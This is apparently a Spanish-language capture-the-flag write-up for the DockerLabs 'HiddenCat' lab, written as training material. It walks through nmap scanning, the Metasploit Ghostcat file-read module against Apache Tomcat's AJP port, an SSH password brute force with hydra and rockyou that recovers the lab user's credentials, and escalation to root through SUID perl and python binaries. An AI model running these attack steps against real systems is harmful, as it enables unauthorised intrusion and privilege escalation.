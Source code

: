 [[Writeups]]
#Writeups #Easy #DockerLabs

![dockerLabs.png](assets/dockerLabs.png)

Empezamos con un escaneo general de nmap:

```bash
❯ sudo nmap -sS -Pn -p- --min-rate 5000 172.17.0.2
[sudo] contraseña para dached: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-27 14:33 CEST
Nmap scan report for 172.17.0.2
Host is up (0.0000070s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
8009/tcp open  ajp13
8080/tcp open  http-proxy
MAC Address: 02:42:AC:11:00:02 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 1.31 seconds
```

Vemos que tenemos un ssh con dos servicios en los puertos 8080 y 8009, vamos a escanear mas profundamente:

```bash
❯ sudo nmap -p22,8009,8080 -sCV 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-27 14:35 CEST
Nmap scan report for 172.17.0.2
Host is up (0.000026s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u4 (protocol 2.0)
| ssh-hostkey: 
|   2048 4d:8d:56:7f:47:95:da:d9:a4:bb:bc:3e:f1:56:93:d5 (RSA)
|   256 8d:82:e6:7d:fb:1c:08:89:06:11:5b:fd:a8:08:1e:72 (ECDSA)
|_  256 1e:eb:63:bd:b9:87:72:43:49:6c:76:e1:45:69:ca:75 (ED25519)
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http    Apache Tomcat 9.0.30
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/9.0.30
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.92 seconds
```

Vemos varios servicios, vemos la web del puerto 8080:

![tomcathiddencat.png](assets/tomcathiddencat.png)

Un tomcat normal, hago una búsqueda de directorios con gobuster y tampoco encuentro nada.

Así que vamos a ver el servicio AJP, resulta que buscando en exploit db vemos que existe una CVE para este servicio que nos puede permitir leer archivos que no deberíamos, dejo el enlace para que podais conultarlo: [Apache Tomcat - AJP 'Ghostcat File Read/Inclusion](https://www.exploit-db.com/exploits/48143)

También por el nombre ghostcat podemos saber que vamos bien encaminados ya que la maquina se llama hiddencat, tienen un parecido.
Abrimos metaesploit y usamos desde ahí esta vulnerabilidad:


```bash
❯ msfconsole
Metasploit tip: Writing a custom module? After editing your module, why not try 
the reload command
                                                  
                                   ____________
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%| $a,        |%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%| $S`?a,     |%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]
 [%%%%%%%%%%%%%%%%%%%%__%%%%%%%%%%|       `?a, |%%%%%%%%__%%%%%%%%%__%%__ %%%%]
 [% .--------..-----.|  |_ .---.-.|       .,a$%|.-----.|  |.-----.|__||  |_ %%]
 [% |        ||  -__||   _||  _  ||  ,,aS$""`  ||  _  ||  ||  _  ||  ||   _|%%]
 [% |__|__|__||_____||____||___._||%$P"`       ||   __||__||_____||__||____|%%]
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%| `"a,       ||__|%%%%%%%%%%%%%%%%%%%%%%%%%%]
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%|____`"a,$$__|%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%        `"$   %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]


       =[ metasploit v6.3.44-dev                          ]
+ -- --=[ 2376 exploits - 1232 auxiliary - 416 post       ]
+ -- --=[ 1388 payloads - 46 encoders - 11 nops           ]
+ -- --=[ 9 evasion                                       ]

Metasploit Documentation: https://docs.metasploit.com/

sea[msf](Jobs:0 Agents:0) >> search ajp

Matching Modules
================

   #  Name                                                 Disclosure Date  Rank       Check  Description
   -  ----                                                 ---------------  ----       -----  -----------
   0  auxiliary/admin/http/tomcat_ghostcat                 2020-02-20       normal     Yes    Apache Tomcat AJP File Read
   1  exploit/linux/http/f5_bigip_tmui_rce_cve_2023_46747  2023-10-26       excellent  Yes    F5 BIG-IP TMUI AJP Smuggling RCE
   2  exploit/linux/http/netgear_unauth_exec               2016-02-25       excellent  Yes    Netgear Devices Unauthenticated Remote Command Execution


Interact with a module by name or index. For example info 2, use 2 or use exploit/linux/http/netgear_unauth_exec

[msf](Jobs:0 Agents:0) >> use 0
[msf](Jobs:0 Agents:0) auxiliary(admin/http/tomcat_ghostcat) >> set rhosts 172.17.0.2
rhosts => 172.17.0.2
[msf](Jobs:0 Agents:0) auxiliary(admin/http/tomcat_ghostcat) >> options

Module options (auxiliary/admin/http/tomcat_ghostcat):

   Name      Current Setting   Required  Description
   ----      ---------------   --------  -----------
   FILENAME  /WEB-INF/web.xml  yes       File name
   RHOSTS    172.17.0.2        yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT     8009              yes       The Apache JServ Protocol (AJP) port (TCP)


View the full module info with the info, or info -d command.

[msf](Jobs:0 Agents:0) auxiliary(admin/http/tomcat_ghostcat) >> run
```

Aqui hemos buscado el servicio ajp y usamos el exploit file read inclusion, cuando le damos a run nos muestra este codigo:

![ghostcat.png](assets/ghostcat.png)

Vemos un mensaje curioso: 

**Welcome to Tomcat, Jerry ;)**

¡Tenemos un usuario!

Con este mensaje lo primero que intente es un ataque de fuerza bruta al ssh con el usuario jerry y el rockyou a ver si me daba un caso positivo:

```bash
❯ hydra -l jerry -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-05-27 14:45:29
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: jerry   password: chocolate
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-05-27 14:45:48

```

Y justo, conseguimos las credenciales:

```ruby
	login: jerry   password: chocolate
```

vamos a conectarnos al ssh y enumerar permisos de este ususario:

```bash
❯ ssh jerry@172.17.0.2
jerry@172.17.0.2s password: 
jerry@3349dee43bec:~$ id
uid=1000(jerry) gid=1000(jerry) groups=1000(jerry)
jerry@3349dee43bec:~$ sudo -l
-bash: sudo: command not found
jerry@3349dee43bec:~$ find / -perm -4000 2>/dev/null
/bin/mount
/bin/ping
/bin/su
/bin/umount
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/perl
/usr/bin/perl5.28.1
/usr/bin/python3.7
/usr/bin/python3.7m
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
```

Despues de enumerar los permisos sudo sin éxito, enumero los suid y veo que tenemos suid de perl y python.

Intente primero con perl en un comando de [GTFOBINS](https://gtfobins.github.io/#) sin éxito:

```bash
jerry@3349dee43bec:~$ /usr/bin/perl -e 'exec "/bin/sh";'
perl: warning: Setting locale failed.
perl: warning: Please check that your locale settings:
	LANGUAGE = (unset),
	LC_ALL = (unset),
	LC_ADDRESS = "es_ES.UTF-8",
	LC_NAME = "es_ES.UTF-8",
	LC_MONETARY = "es_ES.UTF-8",
	LC_PAPER = "es_ES.UTF-8",
	LC_IDENTIFICATION = "es_ES.UTF-8",
	LC_TELEPHONE = "es_ES.UTF-8",
	LC_MEASUREMENT = "es_ES.UTF-8",
	LC_TIME = "es_ES.UTF-8",
	LC_NUMERIC = "es_ES.UTF-8",
	LANG = "es_ES.UTF-8"
    are supported and installed on your system.
perl: warning: Falling back to the standard locale ("C").
Insecure $ENV{PATH} while running setuid at -e line 1.
jerry@3349dee43bec:~$
```

Al darme este error de variables de entorno sin configurar intente antes usar el [SUID de python](https://gtfobins.github.io/gtfobins/python/#suid), a ver si no me daba problemas antes de profundizar mas en perl y me dio ya el acceso root:

![rootHiddenCat.png](assets/rootHiddenCat.png)

Y obtenemos root con máximos privilegios.